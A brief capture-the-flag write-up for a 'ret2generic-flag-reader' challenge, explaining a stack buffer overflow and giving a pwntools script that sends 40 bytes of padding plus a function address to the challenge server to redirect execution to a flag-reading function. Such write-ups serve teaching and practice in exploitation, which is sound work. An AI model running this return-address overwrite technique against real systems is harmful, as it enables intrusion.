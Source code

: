 #### Description

i'll ace this board meeting with my new original challenge!

#### Solution

This is the source code:  
![Alt text](./img/ret2generic-flag-reader.png?raw=true "Title")  
as you can see there is also now a buffer overflow but now we must change the saved return address with the address of the function that allows us to read the flag, so `void super_generic_flag_reading_function_please_ret_to_me()`.  
First of all we need to find the address of that function and to do that we can use gdb and disassamble our binary.  
The address we are looking for is `0x4011f6` while the padding for buffer overflow exploitation is 32+8.  
This is the script I use to solve the challenge:

```
from pwn import *

r = remote ('mc.ax', 31077)

address = 0x4011f6
shellcode = b"\x41"*40 + p64(address)
r.sendline(shellcode)
r.interactive()
```
